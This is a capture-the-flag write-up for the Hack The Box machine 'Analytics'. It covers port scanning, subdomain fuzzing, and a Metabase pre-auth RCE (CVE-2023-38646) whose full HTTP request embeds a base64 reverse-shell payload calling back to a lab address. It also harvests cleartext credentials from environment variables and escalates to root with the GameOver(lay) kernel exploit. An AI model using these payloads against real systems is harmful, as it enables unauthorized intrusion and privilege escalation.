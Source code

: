 # HTB - Analytics

### TL;DR
This is an Ubuntu 22.04 host running an http server on port 80. The vulnerable web application running is metabase, and using the appropriate exploit rce can be gained. For escalation, a kernel vulnerability can be abused.

__Keywords:__<br>
metabase, GameOver(lay)<br>

__References:__<br>
https://www.cvedetails.com/cve/CVE-2023-38646<br>
https://www.cvedetails.com/cve/CVE-2023-2640<br>
https://www.cvedetails.com/cve/CVE-2023-32629<br>
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/<br>
https://github.com/securezeron/CVE-2023-38646<br>
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629<br>
<br>
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target --top-ports 1000 -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 15:15 EDT
Nmap scan report for analytical.htb (10.129.136.15)
Host is up, received user-set (0.35s latency).
Not shown: 569 filtered tcp ports (no-response), 429 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```
Discover hidden subdomains with `ffuf`
```markdown
> ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 154  -t 100 -u http://analytical.htb -H "Host: FUZZ.analytical.htb" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://analytical.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.analytical.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 154
________________________________________________

data                    [Status: 200, Size: 77883, Words: 3574, Lines: 28]
```
Browsing the hidden subdomain at http://data.analitycal.htb we find a login portal for a metabase service. Searching for metabase vulnerabilities we find out there is a vulnerability (https://www.cvedetails.com/cve/CVE-2023-38646) in the `/api/setup/validate` endpoint, which can lead to rce.
<br>
<br>
### PHASE 2. User
Search for a poc in github for this cve (https://github.com/securezeron/CVE-2023-38646). Analyzing the poc, we see first step is to obtain setup token, for this, just query the `/api/session/properties` endpoint and find `setup-token` field. Then, to obtain rce, we query the `api/setup/validate` endpoint with the setup token and the appropriate payload.

We can do this ourselves with burpsuite.

![analytics1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/9512d67d-0565-48bb-8e77-cca05f62f8b9)

So the setup token is `"setup-token" : "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`. For the payload, just use a base64 `sh -i` shell and query the endpoint building a post request with burpsuite.
```markdown
POST /api/setup/validate HTTP/1.1 Host: data.analytical.htb Content-Type: application/json Content-Length: 818 

{       "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details":
        {
                "is_on_demand": false,
                "is_full_sync": false,
                "is_sample": false,
                "cache_ttl": null,
                "refingerprint": false,
                "auto_run_queries": true,
                "schedules":
                {},
                "details":
                {
                        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjEvMTkxOSAwPiYxCg==}|{base64,-d}|{bash,-i}')\n$$--=x",
                        "advanced-options": false,
                        "ssl": true
                },
        "name": "an-sec-research-team",
        "engine": "h2"
        }
}
```

![analytics2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/440a1690-57fa-4ec2-9ab5-2568bcfec630)

If this does not work, just use the poc hardocding the shell in base64 within the poc source code.
```markdown
> python3 exploit.py --rhost data.analytical.htb --lhost <listener ip> --lport 9001
```
After issuing the exploit, a sh shell is received on port 9001.
Continue enumerating the system.
```markdown
> uname -a && cat /etc/os-release
Linux befd7ac0fb41 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 Linux
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.18.2
PRETTY_NAME="Alpine Linux v3.18"

> whoami && id
metabase
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
We are in some kind of limited Ubuntu system, maybe a container. Looking around we find a script `/app/run_metabase.sh` to start the database where some env variables are manipulated, so let's enumerate environmental variables.
```markdown
> env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=befd7ac0fb41
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/opt
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=run_metabase.sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/app
MB_DB_FILE=//metabase.db/metabase.db
```
Clear text credentials are found here. So we can just login using them.
```markdown
> ssh metalytics@$target            
metalytics@10.129.136.15's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

Last login: Sat Oct  7 23:19:29 2023 from 10.10.14.80
metalytics@analytics:~$
```

### PHASE 3. System
Now we have a full shell out of the container. Enumerate system again.
```markdown
> uname -a && cat /proc/version
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
```
Notice the system is Ubuntu 22.04 and kernel is 6.2.0. This release is vulnerable to GameOver(lay) Ubuntu Privilege Escalation (CVE-2023-2640 and CVE-2023-32629).
To escalate privileges, just download and execute exploit available in github (https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).
After running the exploit, a root shell spawns.
```markdown
> -/exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned

> whoami
root
```
A root shell spawns.


